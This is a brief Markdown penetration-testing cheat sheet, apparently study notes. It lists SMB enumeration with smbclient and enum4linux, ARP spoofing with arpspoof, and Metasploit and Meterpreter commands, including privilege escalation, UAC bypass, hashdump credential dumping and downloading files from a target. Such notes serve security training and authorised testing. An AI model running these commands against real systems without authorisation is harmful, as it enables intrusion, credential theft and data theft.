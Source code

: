 ### Mount Share

```text
smbclient //10.10.10.10/sharename -N
```

### enum4linux

```text
enum4linux -a 10.10.10.10
```

The above command does all the previous ones and gives you more data too except mounting the shares, that you have to implement using smbclient.

## ARP Poisoning

### arpspoof

&lt;interface&gt; == eth0/tap0

```text
arpspoof -i <interface> -t target -r host
```

## Metasploit

### Basic

```text
search <term>
use <term>
info
show options
set <option> x
exploit
```

### Meterpreter

**bind\_tcp**: runs a server process on the target machine that waits for connections from attacker machine.

**reverse\_tcp**: performs a TCP connection back to the attacker machine. Helps evade firewall rules.

```text
background #backgrounds the current session
sessions -l
sessions -i %n
sysinfo
ifconfig, route
getuid
getsystem #privesc
bypassuac #if privesc fails
hashdump
cat '/path/to/file.txt'
download '/path/to/fileontarget.txt' /root/mymachine/
```

---
